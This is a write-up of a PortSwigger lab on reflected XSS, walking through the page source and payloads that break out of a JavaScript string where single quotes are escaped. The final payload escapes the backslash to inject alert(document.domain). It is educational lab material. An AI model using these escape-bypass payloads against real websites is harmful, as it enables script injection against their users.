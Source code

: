 # Reflected XSS into a JavaScript string with angle brackets and double quotes HTML-encoded and single quotes escaped | Jan 1, 2023

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-string-angle-brackets-double-quotes-encoded-single-quotes-escaped), you'll learn: Reflected XSS into a JavaScript string with angle brackets and double quotes HTML-encoded and single quotes escaped! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

This lab contains a [reflected cross-site scripting](https://portswigger.net/web-security/cross-site-scripting/reflected) vulnerability in the search query tracking functionality where angle brackets and double are HTML encoded and single quotes are escaped.

To solve this lab, perform a cross-site scripting attack that breaks out of the JavaScript string and calls the `alert` function.

## Exploitation

**Home page:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Site-Scripting/XSS-22/images/Pasted%20image%2020230101043307.png)

In here, we can see there is a search box.

Let's search something:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Site-Scripting/XSS-22/images/Pasted%20image%2020230101043331.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Site-Scripting/XSS-22/images/Pasted%20image%2020230101043357.png)

As you can see, our input is reflected to the web page.

**View source page:**
```html
<section class=search>
    <form action=/ method=GET>
        <input type=text placeholder='Search the blog...' name=search>
        <button type=submit class=button>Search</button>
    </form>
</section>
<script>
    var searchTerms = 'test';
    document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
</script>
```

In here, the source (input) is being parsed to the `document.write` sink.

**Let's try to inject an XSS payload:**
```html
</script><img src=errorpls onerror=alert(document.domain)>
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Site-Scripting/XSS-22/images/Pasted%20image%2020230101043835.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Site-Scripting/XSS-22/images/Pasted%20image%2020230101043904.png)

As you can see, our `<>` is HTML encoded.

**Let's try to break out of the JavaScript code:**
```js
';alert(document.domain)//
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Site-Scripting/XSS-22/images/Pasted%20image%2020230101044344.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Site-Scripting/XSS-22/images/Pasted%20image%2020230101044401.png)

However, our `'` is being escaped.

**We can try to escape the `\`:**
```js
\';alert(document.domain)//
```

**So the result will be:**
```js
\\';alert(document.domain)//
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Site-Scripting/XSS-22/images/Pasted%20image%2020230101044435.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Site-Scripting/XSS-22/images/Pasted%20image%2020230101044444.png)

Nice!

# What we've learned:

1. Reflected XSS into a JavaScript string with angle brackets and double quotes HTML-encoded and single quotes escaped